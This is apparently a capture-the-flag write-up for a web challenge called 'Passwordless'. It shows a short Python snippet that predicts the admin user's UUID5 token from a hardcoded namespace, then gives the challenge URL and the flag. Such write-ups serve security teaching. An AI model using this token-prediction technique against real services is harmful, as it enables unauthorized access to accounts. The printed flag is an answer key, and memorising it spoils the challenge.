 # Passwordless
371

Tired of storing passwords? No worries! This super secure website is passwordless! Author: NoobMaster

# Attachments
app.py
http://24.199.110.35:40150/


# Walkthrough
from app.py we need to generate the UUID for admin123

import uuid

leet = uuid.UUID('13371337-1337-1337-1337-133713371337')
admin_uuid = uuid.uuid5(leet, 'admin123')
print(admin_uuid)

GO TO: http://24.199.110.35:40150/3c68e6cc-15a7-59d4-823c-e7563bbb326c

# Flag
n00bz{1337-13371337-1337-133713371337-1337} 